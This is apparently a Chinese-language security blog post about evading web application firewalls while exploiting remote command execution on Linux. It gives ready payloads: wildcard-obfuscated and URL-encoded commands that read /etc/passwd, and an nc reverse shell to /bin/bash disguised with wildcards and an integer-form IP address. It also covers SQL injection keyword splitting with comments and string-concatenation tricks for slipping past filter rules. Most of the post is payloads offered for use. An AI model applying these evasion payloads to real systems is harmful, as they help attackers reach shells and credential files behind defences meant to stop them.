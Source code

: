 ```yaml
---
title: 绕过waf
categories:
- waf
tags:
- waf
---
```


## 引子
人生不是做菜，不能等所有材料准备好了再下锅。

## 参考资料
[命令执行的一些绕过技巧](https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)

[Web Application Firewall (WAF) Evasion Techniques](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8)

[Web Application Firewall (WAF) Evasion Techniques #2](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0)

## 正文
本文要讨论的是在linux系统中，当有rce(远程命令执行)漏洞时，绕过waf的操作有哪些。

### 基础知识提要
wildcard通配符，又叫做globbing通配符，有很多语法可以使用？/和数字+字母，就可以执行系统命令。
例如：

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/13.PNG)

```
/???/?s --help
就通过通配符，代替了/bin/ls --help，执行了系统命令
```
如果防火墙没有过滤？和/,那么就可以构造通配符的命令注入

使用这种方式  `/bin/cat /etc/passwd`

可以写为       `/???/??t /??c/p???w?`

然后url编码一下，`%20%2f%3f%3f%3f%2f%3f%3f%74%20%2f%3f%3f%63%2f%70%3f%3f%3f%77%3f`就可以绕过waf进行命令执行。

`/???/??t /??c/p???w?`虽然会执行`/bin/cat /etc/passwd`，但是同时也会执行/dev/net，/etc/apt，因为/???/??t就是以t结尾，规定了字符长度而已，所以会grobbing匹配，也就是环回滚动依次匹配的意思。

### nc反弹shell的案例
```
nc -e /bin/bash 127.0.0.1 1337

/???/n? -e /???/b??h 2130706433 1337
```
使用上面提到的方式，可以将nc反弹shell的语句修改为这样。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/14.PNG)

可以在线转换ip转换为int，这样可以避免使用IP中的小数点，进一步绕过waf规则。

>这里普及一下基础知识：IP地址是一个32位的二进制数，通常被分割为4个“8位二进制数”（也就是4个字节）。IP地址通常用“点分十进制”表示成（a.b.c.d）的形式，其中，a,b,c,d都是0~255之间的十进制整数。例：点分十进IP地址（100.4.5.6），实际上是32位二进制数（01100100.00000100.00000101.00000110）

### 使用`?`而不是`*`

在linux中，？和*都可以作为通配符。但是在sql中`/*代表注释*/`，所以最好使用更加不容易被过滤的`？`而不是`*`

### 如果过滤了ls可以使用echo
echo /???/??ss??

可以枚举存在的目录和文件
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/15.PNG)

### sql注入-waf绕过
使用注释/**/代替空格，例如`/?id=1+un/**/ion+sel/**/ect+1,2,3--`
不能在本地文件包含或者命令执行中使用。

参考fluxcapacitor，使用连接字符串，绕过waf

### 连接符过waf
这种方法可以过滤以正则表达式搜索短语的过滤规则。

#### 加号
+ 加号，在许多编程语言中，通常可以连接两个字符串

#### 点号
在php中，点号.可以连接两个字符串，例如
```
$ php -r 'echo "hello"." world"."\n";'
hello world
$ python -c 'print "hello" + " world"'
hello world
```
#### 空格和双引号

在python中，空格和双引号可以连接两个字符串，例如：
`python -c 'print "te" "st"'`

#### 单引号
在bash中，单引号可以作为连接符，注意单引号要成双数来闭合引号。
```
# echo test
# echo 't'e's't
# echo 'te'st
# echo 'te'st''
# echo 'te'''st''
```
